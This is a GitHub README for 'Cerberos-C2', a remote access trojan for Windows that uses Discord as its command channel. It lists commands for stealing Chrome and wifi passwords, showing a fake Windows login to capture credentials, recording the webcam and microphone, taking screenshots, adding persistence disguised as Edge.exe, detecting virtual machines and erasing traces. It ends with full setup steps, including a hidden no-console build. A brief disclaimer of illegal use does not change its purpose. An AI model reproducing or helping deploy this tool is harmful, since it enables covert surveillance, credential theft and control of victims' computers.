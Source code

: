 # Cerberos-C2
Cerberos C2 has over 50+ Functions, Cerberos Uses Discord as the C2. Cerberos CAN ONLY BE USED TO CONTROL WINDOWS. \
Cerberos v1.0.0 is created on 09-8-2022 by Vczz0.\
Cerberos is Tested on Windows 10+\
Total Spended Hours: 15~
#### BTC: bc1ql98s5yu2yt0r0rnp4ytc76sadd2xewapszmpd3


# WARNING!!
Cerberos C2 is not created for illegal purpose. The creator is not responsible for any damage. 

# requirements
1. Windows 10 for setup
2. Python 3.10.6
3. Discord Application
4. Cerberos-C2.zip

# Todo
1. Email Function.
2. More Cam / microphone functions
3. GUI application
4. Rubberducky script

# Functions
if you use a path you can use {user}. Cerberos C2 will change it to the real username
change {ID} to the client ID wich you want to control.
```
# Cerberos C2
!resetID 			       >> Resets all ID's of clients. New ID's will be used after the program restarts.
!list 				       >> Display all active client's.
!info {ID} 			       >> Displays Version of client.
!terminate {ID} 		       >> Close's Application. Wich results to lose of control of client.

# System
!cmd {ID} {INPUT}		       >> Executes a system command on client. Change {INPUT} To command.
!destruct {ID} 			       >> Delets all trace's of Cerberos C2.
!reboot {ID}                           >> Reboots Client's system.
!shutdown {ID}                         >> Shutsdowb Client's system.
!usbcheck {ID} 			       >> Checks all pluged in device's.
!vm {ID}			       >> Checks if client is vm.
!wcd {ID}			       >> Get Current working dir.
!allproc {ID} 			       >> Lists all current curring processes.
!showerror {ID} {TITLE} {MESSAGE}      >> Shows error message. Change {TITLE} To your own title and {MESSAGE} TO your own message.
!clipboard {ID} 		       >> Gets Client clipboard.
!cd {ID} {DIR}		               >> Change dir to dir given.
!wallpaper {ID} {PATH}                 >> Changes walpaper to given dir. NOTE: "GIVE WHOLE DIR, else the wallpaper is black".
!volumemax {ID}			       >> Maxes out the volume of client.
!volumedown {ID} 		       >> Set's volume to zero of client.
!say {ID} {TEXT} 		       >> Get a voice to say {TEXT}.
!url {ID} {URL} 		       >> Opens {URL} in browser. 
!winlogin {ID} 			       >> Create's a fake window login to try to get a password.
!taskkill {ID} {TASK} 		       >> Kill's a task. Either the id or name.
!wifipw {ID} 			       >> Extracts wifi passwords.
!bluescreen {ID} 		       >> Bluescreen's client.
!window {ID} 			       >> Get client window text. 
!admincheck {ID}                       >> Checks for admin rights.

# Files
!upload {ID} {LINK} {NAME} / {PATH}    >> Uploads a file. Trough link. you can upload a file in the #upload channel and copy link from there. Enter file or path to store file.
!download {ID} {FILE}		       >> Downloads file from client. 
!remove {ID} {FILE} 		       >> Removes file from client
!mkdir 				       >> Make's a dir on client.

# Mouse / Keys    		       
!key {ID} {KEY} 		       >> Clicks Key given on clients keyboard change {KEY} with the key.
!morekey {ID} {KEY} 		       >> Clicks multiple Key given on clients keyboard change {KEY} with the key's.
!mousemove {ID} {coordinates} 	       >> Move's client mouse to given coordinates.
!mouseclick {ID} {coordinates} 	       >> Clicks on coordinates given.
!mouysedoubleclick {ID} {coordinates}  >> Double clicks on coordinates given.


# Cam
!screenshot {ID} 		       >> Takes a screenshot of client.
!frontcam {ID}    		       >> Takes a picture of client's frontcam.
!mic {ID}			       >> Records MIC from client for 9 seconds.
!camcount {ID} 			       >> Counts all systemcams.

# IP
!ipinfo {ID}			       >> Displays IP info of client. Country, Region etc.
!ipmap {ID} 			       >> Converts IP Lat, Long of client to a map.

# admin rights
!block {ID} 			       >> Blocks input, keyboard, mouse.
!unblock {ID} 			       >> Unblocks input. 
!displayoff {ID} 		       >> Blocks client input and set a black screen.
!displayon {ID} 		       >> Unblock client input and removes blackscreen. 

#persist
!persist {ID}			       >> Creates persistance on client. Exe: Edge.exe Regname: Edge.
!peristcheck {ID}		       >> Checks for persistance on client.
!persistdelete {ID}                    >> Tries to delete persistance.

# Chrome
!chromehistory {ID}		       >> Gets Chrome history of client. 
!chromecred {ID} 		       >> Extracts Chrome passwords.

#Rickroll
!rickroll {ID}			       >> Open's a rickroll video.

```





 

# Instalation
1. Click on [this link](https://www.python.org/ftp/python/3.10.6/python-3.10.6-amd64.exe) to download python 3.10.6.
2. Open te Python application.
3. Click "[ ] Add Python 3.10.6 to path] > "install now". Wait till finished after that you can close the Python application.
4. Open the Github of Cerberos-C2 > Click on "Code" > "Download ZIP". Wait till download is finished.
5. Unzip "Cerberos-C2.zip".
6. Open the folder "Cerberos-C2".
7. Right click on mouse and click on "Properties" > copy the "Location".
8. Open "CMD" > type: "cd" paste the copied Location + \Cerberos-C2 > hit "Enter".
9. Type: ```pip install -r requirements.txt```. Wait till its finished. Click on "-" To Minimize CMD.
10. Open Cerberus-C2 Folder again and double Click on the folder "main" > right click on "main.py" > "Edit" > "Edit with EDILE". Or you can edit it with Notepad. Minimize the Edile.
11. Click on [this link](https://discord.new/4A2stHvnUmXV) to copy the server template.
12. Change the server name to: "Cerberos C2".
13. Click on the green button "Create".
14. Open Discord > Click on the Server "Cerberos C2" > Click on "Cerberos C2" > "Server Settings" > "Integrations" > "Create Webhook".
15. Change the name of the webhook To: "Cerberos-AgentOnline" > Set channel to: "#agent-online" > Click On "Copy Webhook URL".
16. Open The Idle to change "main.py". Scroll till you see: AGENT_ONLINE_ID = "[AGENT_ONLINE_WBHOOK]". Replace [AGENT_ONLINE_WBHOOK] with your Copied Cerberos-AgentOnline Webhook setup earlier.
17. Click on "New Webhook" > change the name to "Cerberos-C2" > Channel to: "#c2"  > "Copy Webhook URL". 
18. Open The Idle to change "main.py". Scroll till you see: COMMAND_CONTROL_ID = "[C2_WEBHOOK]". Replace [C2_WEBHOOK] with your Copied Cerberos-C2 Webhook setup earlier.
19. Click on "New Webhook" > change the name to "Cerberos-Screenshots" > Channel to: "#screenshots" > "Copy Webhook URL".
20. Open The Idle to change "main.py". Scroll till you see: SCREENSHOT_ID = "[SCREENSHOT_WEBHOOK]". Replace [SCREENSHOT_WEBHOOK] with your Copied Cerberos-Screenshots Webhook setup earlier.
21. Click on "New Webhook" > change the name to "Cerberos-Webcam" > Channel to: "#webcam" > "Copy Webhook URL".
22. Open The Idle to change "main.py". Scroll till you see: WEB_CAM_ID = "[WEBCAM_WEBHOOK]". Replace [WEBCAM_WEBHOOK] with your Copied Cerberos-Webcam Webhook setup earlier.
23. Click on "New Webhook" > change the name to "Cerberos-Microphone" > Channel to: "#microphone"  > "Copy Webhook URL".
24. Open The Idle to change "main.py". Scroll till you see: MIC_ID = "[MICROPHONE_WEBHOOK]". Replace [MICROPHONE_WEBHOOK] with your Copied Cerberos-Microphone Webhook setup earlier.
25. Click on "New Webhook" > change the name to "Cerberos-Downloads" > Channel to: "#downloads" > "Copy Webhook URL".
26. Open The Idle to change "main.py". Scroll till you see: DOWNLOAD_ID = "[DOWNLOAD_WEBHOOK]". Replace [DOWNLOAD_WEBHOOK] with your Copied Cerberos-Downloads Webhook setup earlier.
27. Open your webbrowser and go to the discord developer portal website. You might have to login.
28. Click on "New application" > Set The Name Tho "Cerberos-C2" > "Create". By clicking on the image of the bot you set an logo if you want. The Logo can be found in the zip. 
29. On The left side click on "OAuth2" > "URL Generator". Click on "Bot". Then click on "Administrator.
30. Then there is a generated link click on "Copy". 
31. Open a new tab and enter the link. Note: "Sometimes it takes a bit of time".
32. Select the server: Cerberos C2.
33. click on "continue" > "authorize". do the verification.
34. Go back to the developer portal and go to "Bot" > "Copy" To copy the token. or you have to click "Reset" and then copy the token.
35. Open The Idle to change "main.py". Scroll till you see: BOT_TOKEN = "[BOT_TOKEN_HERE]". Replace [BOT_TOKEN_HERE] with your Copied Bot token setup earlier
36. Open the cmd window again. now type: ```pyinstaller main\main.py --onefile --noconsole --i \ico\exe.ixo``` and hit "Enter"
37. You can find the exe in the dist dir.
